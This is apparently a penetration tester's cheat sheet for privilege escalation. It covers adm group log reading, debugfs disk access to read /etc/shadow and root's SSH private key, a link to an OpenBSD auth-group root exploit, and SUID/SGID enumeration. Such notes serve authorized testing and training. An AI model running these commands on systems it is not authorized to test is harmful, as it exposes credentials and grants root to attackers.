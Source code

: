 #### ADM

Usually **members** of the group **`adm`** have permissions to **read log** files located inside _/var/log/_.

```
grep "CRON" /var/log/syslog

# CD to var log and search for usernames that we know exist on the machine
cd /var/log
grep --color=always -rnEi "robert|root|mark|cassie" './' 2>/dev/null
```

#### LXD/LXC

Check Online

#### Disk

```bash
df -h #Find where "/" is mounted
debugfs /dev/sda1
cd /root
ls
cat /etc/shadow
cat /root/.ssh/id_rsa
```

Copy Files:

```bash
debugfs -w /dev/sda1
dump /tmp/asd1.txt /tmp/asd2.txt
```

#### Auth
Inside OpenBSD the **auth** group usually can write in the folders _**/etc/skey**_ and _**/var/db/yubikey**_ if they are used.  
These permissions may be abused with the following exploit to **escalate privileges** to root: [https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2019-19520/openbsd-authroot](https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2019-19520/openbsd-authroot)

### SUID/SGID

```
find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null -exec ls -la {} \;
find / -perm -g=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null -exec ls -la {} \;
```

1. GTFOBins
2. Unknown Binary
	- Check Online for Exploits
	- Check online for RCE
	- Check Help command or man to see if you can run code
	- `strings binary`
	- `strace binary`
	- Run the Binary to see if it takes arguments for BOF (GDB installed on machine?)
